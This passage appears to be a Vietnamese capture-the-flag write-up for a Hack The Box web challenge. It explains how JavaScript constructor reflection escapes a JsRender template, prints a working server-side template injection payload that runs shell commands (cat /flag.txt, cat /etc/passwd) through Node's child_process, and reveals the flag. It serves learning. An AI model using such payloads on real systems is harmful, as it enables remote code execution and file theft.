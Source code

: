<img width="523" height="238" alt="image" src="https://github.com/user-attachments/assets/745bf759-2b8e-40bb-a713-262476c655c7" /> <br>
> Do tính chất phản chiếu của JavaScript, ta có thể thoát khỏi ngữ cảnh hạn chế này . Một phương pháp để đạt được điều này là truy cập “constructor”thuộc tính đặc biệt của một hàm JavaScript tích hợp sẵn, cho phép ta truy cập vào hàm được sử dụng để tạo hàm (hoặc đối tượng) mà ta đang tham chiếu đến. Ví dụ: một số đối tượng JavaScript bao gồm chuỗi có một hàm mặc định được đặt tên toString()mà ta có thể tham chiếu trong biểu thức được chèn, ví dụ:\{\{:"test".toString()\}\} <br>
> Từ đây, chúng ta có thể truy cập hàm constructorcho phép chúng ta xây dựng một hàm mới bằng cách gọi hàm đó. Trong ví dụ này, chúng ta tạo một hàm ẩn danh được thiết kế để hiển thị hộp cảnh báo JavaScript. <br>
Và sau khi loay hoay tìm payload tôi có được tải trọng này hoạt động vì trong môi trường Node.js chúng ta có thể RCE thực thi (<b>cat /etc/passwd</b>) và chúng ta có thể đăng kí 1 tải khoản với username để get FLAG<br>
Tải trọng:<b>
```js
\{\{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()\}\}
```
Sau đó chúng ta cùng truy cập lại tài khoản đã tạo trước đó sửa đổi thuật toán như khi trước thực hiện và truy xuất flag <br>
```html
<li class="list-group-item d-flex justify-content-between align-items-center ">
    <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
    </span>
</li>
```
> Flag: HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}<br>
## Tổng Kết <br>
> Những gì tôi học được như sau: <br>
> 1. Bỏ qua tiêu đề thuật toán <b>"JWT":"NONE"</b><br>
> 2. Khai thác RCE thông qua JsRender SSTI<br>











